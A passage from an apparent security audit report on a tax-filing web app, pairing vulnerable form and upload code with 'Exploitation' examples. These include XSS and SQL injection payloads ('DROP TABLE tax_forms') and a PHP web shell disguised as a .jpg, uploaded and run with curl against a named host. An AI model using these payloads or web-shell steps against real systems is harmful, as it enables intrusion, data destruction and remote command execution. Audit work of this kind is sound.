 ```typescript
// VULNERABLE CODE - No server-side validation
<Input
  id="fullName"
  value={formData.fullName}
  onChange={(e) => handleInputChange('fullName', e.target.value)}
  // ❌ HIGH: No input sanitization or length limits
/>
```

**Exploitation:**
```javascript
// Attack: Inject malicious data into personal info
const maliciousData = {
  fullName: "<script>alert('XSS')</script>".repeat(1000),
  email: "admin@domain.com'><script>steal_data()</script>",
  pan: "AAAPL1234C'; DROP TABLE tax_forms; --",
  address: "X".repeat(100000) // Cause buffer overflow/DoS
};
```

#### H-002: Admin File Upload Vulnerability
**File:** `server/blogRoutes.ts` (Lines 44-87)  
**Severity:** HIGH (CVSS: 8.1)  
**Impact:** Remote code execution via file upload

```typescript
// VULNERABLE CODE - Insufficient file validation
fileFilter: (req, file, cb) => {
  const allowed = ['image/jpeg', 'image/png', 'image/gif'];
  if (!allowed.includes(file.mimetype)) {
    return cb(new Error('Only image files are allowed.'));
  }
  cb(null, true);
}
// ❌ HIGH: MIME type can be spoofed, no magic number validation
```

**Exploitation:**
```bash
# Attack: Upload malicious PHP file disguised as image
# 1. Create malicious file
echo '<?php system($_GET["cmd"]); ?>' > backdoor.php.jpg

# 2. Modify MIME type header
curl -X POST http://smarttaxpro.com/api/admin/blog/upload-image \
  -F "image=@backdoor.php.jpg;type=image/jpeg" \
  -H "Authorization: Bearer admin-token"

# 3. Execute commands via uploaded file
curl "http://smarttaxpro.com/uploads/blog-images/backdoor.php.jpg?cmd=ls+-la"
```

#### H-003: Admin User Management Privilege Escalation
**File:** `client/src/features/admin/components/admin.page.tsx`  
**Severity:** HIGH (CVSS: 7.9)  
**Impact:** Unauthorized user role modification

